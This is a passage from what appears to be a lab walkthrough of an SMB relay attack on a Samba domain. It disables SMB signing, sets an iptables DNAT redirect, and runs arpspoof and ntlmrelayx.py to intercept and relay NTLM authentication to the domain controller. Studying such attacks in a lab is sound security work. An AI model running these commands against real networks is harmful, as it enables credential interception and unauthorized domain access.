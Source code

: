 2. Disable SMB Signing, on both Domain Controller and Domain Members by adding the following lines to the `smb.conf` file.
```bash
# On the Domain Controller
server signing = disabled
# On the Domain Member
client signing = disabled
```

3. Apply the changes by reloading the Samba configuration.
```bash
/usr/local/samba/bin/smbcontrol all reload-config
```

4. Activate Packet forwarding in the Kernel. IP forwarding needs to be enabled otherwise, the attacker's machine will drop the packets not containing its IP address as the destination. 
```bash
sysctl net.ipv4.ip_forward=1
```

5. Changes the destination IP address of the packet to the attacker's IP address. At this point, the attacker is in the middle and receives the packets destined for the SMB server. So what do we do? We change the destination IP address to our IP so that our SMB server running in the background can start relaying our SMB messages.

**NOTE:** Add port 445 (SMB) to improve the filter

```bash
iptables -t nat -A PREROUTING -d 192.168.122.10 -i eth0 -p tcp -m tcp -j DNAT --to-destination 192.168.122.50
```

**Useful commands**
```bash
# List NAT rules
iptables -t nat -L
# Flush NAT rules
iptables -t nat -F
``` 
##### Attack
1. Poison the ARP tables of the Domain Member (DM) and prepare the attacker to relay SMB messages.
```bash
# ARP Poisoning attack
arpspoof -i eth0 -t 192.168.122.20 192.168.122.10 > /dev/null 2>&1 & 

# Prepare attacker to relay all messages received to the DC
ntlmrelayx.py -smb2support -t 192.168.122.10 -i
```

2. On the Domain Member, access a share in the DC (SMB server). Because the ARP tables of the DM are poisoned the request will be sent to the attacker. When the attacker receives the request it will send an **NT_LOGON_failure** to the Domain Member (client) and relay the request to the DC to gain access to the SMB server.
```bash
/usr/local/samba/bin/smbclient //192.168.122.10/netlogon -U Administrator -c 'ls'
```
